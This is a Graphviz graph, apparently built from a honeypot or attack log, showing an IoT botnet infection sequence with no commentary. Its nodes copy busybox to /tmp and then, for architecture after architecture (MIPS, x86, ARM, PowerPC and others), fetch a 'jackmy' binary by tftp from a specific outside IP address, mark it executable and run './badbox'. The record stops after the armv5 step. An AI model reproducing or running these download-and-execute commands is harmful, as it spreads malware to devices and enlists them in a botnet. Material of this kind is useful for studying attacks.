 digraph {
1 [label=" ulimit -n 1024"];
1 -> 5;
5 [label=" cp /bin/busybox /tmp/"];
5 -> 10;
10 [label=" cd /tmp"];
10 -> 14;
14 [label=" tftp -r jackmymips -g 62.4.1.192"];
14 -> 21;
21 [label=" cat jackmymips "];
21 -> 27;
27 [label=" chmod +x *"];
27 -> 32;
32 [label=" ./badbox"];
32 -> 35;
35 [label=" cd /tmp"];
35 -> 39;
39 [label=" tftp -r jackmymipsel -g 62.4.1.192"];
39 -> 46;
46 [label=" cat jackmymipsel "];
46 -> 52;
52 [label=" chmod +x *"];
52 -> 57;
57 [label=" ./badbox"];
57 -> 60;
60 [label=" cd /tmp"];
60 -> 64;
64 [label=" tftp -r jackmysh4 -g 62.4.1.192"];
64 -> 71;
71 [label=" cat jackmysh4 "];
71 -> 77;
77 [label=" chmod +x *"];
77 -> 82;
82 [label=" ./badbox"];
82 -> 85;
85 [label=" cd /tmp"];
85 -> 89;
89 [label=" tftp -r jackmyx86 -g 62.4.1.192"];
89 -> 96;
96 [label=" cat jackmyx86 "];
96 -> 102;
102 [label=" chmod +x *"];
102 -> 107;
107 [label=" ./badbox"];
107 -> 110;
110 [label=" cd /tmp"];
110 -> 114;
114 [label=" tftp -r jackmyi686 -g 62.4.1.192"];
114 -> 121;
121 [label=" cat jackmyi686 "];
121 -> 127;
127 [label=" chmod +x *"];
127 -> 132;
132 [label=" ./badbox"];
132 -> 135;
135 [label=" cd /tmp"];
135 -> 139;
139 [label=" tftp -r jackmypowerpc -g 62.4.1.192"];
139 -> 146;
146 [label=" cat jackmypowerpc "];
146 -> 152;
152 [label=" chmod +x *"];
152 -> 157;
157 [label=" ./badbox"];
157 -> 160;
160 [label=" cd /tmp"];
160 -> 164;
164 [label=" tftp -r jackmyi586 -g 62.4.1.192"];
164 -> 171;
171 [label=" cat jackmyi586 "];
171 -> 177;
177 [label=" chmod +x *"];
177 -> 182;
182 [label=" ./badbox"];
182 -> 185;
185 [label=" cd /tmp"];
185 -> 189;
189 [label=" tftp -r jackmym86k -g 62.4.1.192"];
189 -> 196;
196 [label=" cat jackmym86k "];
196 -> 202;
202 [label=" chmod +x *"];
202 -> 207;
207 [label=" ./badbox"];
207 -> 210;
210 [label=" cd /tmp"];
210 -> 214;
214 [label=" tftp -r jackmyarmv4 -g 62.4.1.192"];
214 -> 221;
221 [label=" cat jackmyarmv4 "];
221 -> 227;
227 [label=" chmod +x *"];
227 -> 232;
232 [label=" ./badbox"];
232 -> 235;
235 [label=" cd /tmp"];
235 -> 239;
239 [label=" tftp -r jackmyarmv5 -g 62.4.1.192"];
239 -> 246;
246 [label=" cat jackmyarmv5 "];
246 -> 252;
252 [label=" chmod +x *"];
252 -> 257;
}
